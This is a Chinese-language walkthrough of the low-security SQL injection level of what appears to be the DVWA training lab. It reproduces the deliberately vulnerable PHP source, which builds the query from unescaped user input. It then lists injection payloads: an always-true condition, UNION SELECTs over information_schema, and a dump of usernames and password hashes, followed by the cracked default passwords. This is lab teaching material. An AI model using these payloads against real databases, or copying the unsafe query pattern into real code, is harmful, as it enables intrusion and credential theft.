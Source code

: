# SQL Injection - Low

## View Source

```PHP
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

- [`mysqli_query()`](https://www.php.net/manual/zh/mysqli.query.php)
	- 對資料庫執行查詢
- [`mysqli_fetch_assoc()`](https://www.php.net/manual/zh/mysqli-result.fetch-assoc.php)
	- 將執行結果用 Associative array 回傳
- [`mysqli_error()`](https://www.php.net/manual/zh/mysqli.error.php)
	- 回傳錯誤資訊

## Code Review

- 預先定義好 *SQL* 語句來查詢使用者名稱，但透過動態生成來串接使用者輸入的 *id*
- 會將結果回傳給使用者看，不論成功失敗
- 使用 *GET*
	- E.g., `http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#`

## Answer

- 透過錯誤資訊來判斷注入語句如何串接
	- E.g., 輸入 `'`；噴出 `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1`
1. 原本的 *PHP* 語句
	- `$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";`
2. 雙引號裡面的 *SQL* 語句
	- `SELECT first_name, last_name FROM users WHERE user_id = '$id';`
3. 構造出操作資料庫時可以執行成功的語句
	- `SELECT first_name, last_name FROM users WHERE user_id = '' OR '1'='1'; `
4. 要注入的語句
	- `' OR '1'='1`

### Example

```
' OR '1'='1
' UNION SELECT table_name, table_rows FROM information_schema.tables #
' UNION SELECT table_name, column_name FROM information_schema.columns #
' UNION SELECT user, password FROM users #
```

### Note

- 因為資料庫是將密碼用 *md5* 儲存，且使用者密碼是常見弱密碼
- 可以參照以下網站轉成明文
	- [md5在线解密破解,md5解密加密](https://www.cmd5.com/)
	- [CrackStation - Online Password Hash Cracking](https://crackstation.net/)

```
admin	5f4dcc3b5aa765d61d8327deb882cf99 (password)
gordonb	e99a18c428cb38d5f260853678922e03 (abc123)
1337	8d3533d75ae2c3966d7e0d4fcc69216b (charley)
pablo	0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)
smithy	5f4dcc3b5aa765d61d8327deb882cf99 (password)
```